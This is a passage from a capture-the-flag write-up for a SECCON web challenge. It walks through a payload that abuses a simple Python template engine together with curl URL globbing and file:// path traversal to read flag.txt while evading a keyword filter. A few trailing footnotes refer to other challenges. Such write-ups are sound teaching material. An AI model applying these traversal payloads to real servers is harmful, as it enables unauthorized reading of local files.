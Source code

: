 ```python


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text
```

Is it possible to show the flag string without `SECCON` by abusing this template engine?

The first important point is that `validate("{")` is `True`. You can bypass it with this bug and URL globbing.

Example payload:

- URL: `file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}`
- params:
    ```json
    {
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": ""
    }
    ```

The process in the template engine is as follows.

The initial state:
```
... snip ...
<body>
  <h1>Hello, {name}!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}
```

`"{name}"` → `"{"`:
```
... snip ...
<body>
  <h1>Hello, {!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}
```

`"{"` → `"}{"`:
```
... snip ...
<body>
  <h1>Hello, }{!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON}{real_flag}
```


[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.
